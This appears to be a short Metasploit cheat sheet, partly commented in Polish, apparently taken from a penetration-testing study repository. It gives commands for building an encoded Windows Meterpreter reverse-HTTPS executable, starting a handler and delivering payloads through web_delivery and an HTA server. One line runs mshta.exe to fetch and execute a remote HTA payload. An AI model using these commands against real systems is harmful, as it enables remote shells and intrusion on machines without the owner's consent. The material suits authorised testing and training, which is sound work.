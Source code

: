 ```bash
--platform win: is used to specify the platform
-e x86/shikata_ga_nai: specifies the encoder to use
-f c: sets the output format (in this case C)

```

## Skipping msfvenom's boot time

https://www.rapid7.com/blog/post/2020/12/23/metasploit-tips-and-tricks-for-haxmas-2020-2/#Skipping%20msfvenom's%20boot%20time

```bash
# omijanie msfvenom, generowanie payload z msfconsole
# Use the payload module:
use windows/meterpreter/reverse_https
set LHOST 127.0.0.1
set LPORT 4443
set SessionCommunicationTimeout 0
set ExitOnSession false

# Create the executable, as an alternative to msfvenom:
generate -o reverse_windows.exe -f exe

# Create a handler, as an alternative to exploit/multi/handler
to_handler / exploit -jq
```

## Payload deploy

```bash
# module creates a server which hosts a payload
exploit/multi/script/webdelivery

# hosts an HTML Application (HTA) that when opened will run a payload via Powershell
exploit/windows/misc/hta_server
    (PowerShell)mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta # w PS uruchamia aplikację
```

# resource scripts

https://docs.rapid7.com/metasploit/resource-scripts/

```bash
# Save used commands to a resource script
makerc ~/Desktop/myscript.rc
# Running resource scripts from Metasploit Framework
$ ./msfconsole -r <path to resource script>
msf > resource <path to resource script> [param 1] [param 2] [param 3]
```


# Inne
## Ciekawe moduły
```bash
auxiliary/spoof/
auxiliary/server/
```
